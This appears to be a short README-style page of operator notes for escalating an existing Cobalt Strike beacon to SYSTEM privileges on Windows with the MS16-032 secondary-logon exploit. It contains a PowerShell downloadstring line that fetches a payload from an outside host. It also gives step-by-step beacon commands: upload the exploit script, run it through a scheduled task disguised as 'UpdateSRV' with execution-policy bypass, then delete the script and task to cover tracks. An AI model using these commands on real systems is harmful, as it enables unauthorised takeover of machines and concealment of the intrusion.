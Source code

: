 ### Updated Exploit ms16-032 to get a Beacon with System Priviledges
* [More Infos here] (https://pentestlab.blog/2017/04/07/secondary-logon-handle/) - Blog from NetbiosX

You need a unpriviledged Shell/Beacon on the target. Don't forget to change the exploit for your correct ListenerName 
```
... downloadstring('http://172.16.0.5:80/a')) ...
```
### Get a Beacon with System Priviledges
```
beacon> cd C:\Windows\Temp
beacon> upload /root/tools/files/ms16-032_beacon.ps1

Now create a schtasks to run your exploit:
beacon> shell schtasks /Create /TN UpdateSRV /SC once /ST 10:10 /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass C:\Windows\Temp\ms16-032_beacon.ps1"
System beacon calls back :)

Delete Beacon:
beacon> shell del C:\Windows\Temp\ms16-032_beacon.ps1

Delete Task:
beacon> shell schtasks /Delete /TN UpdateSRV /F
```
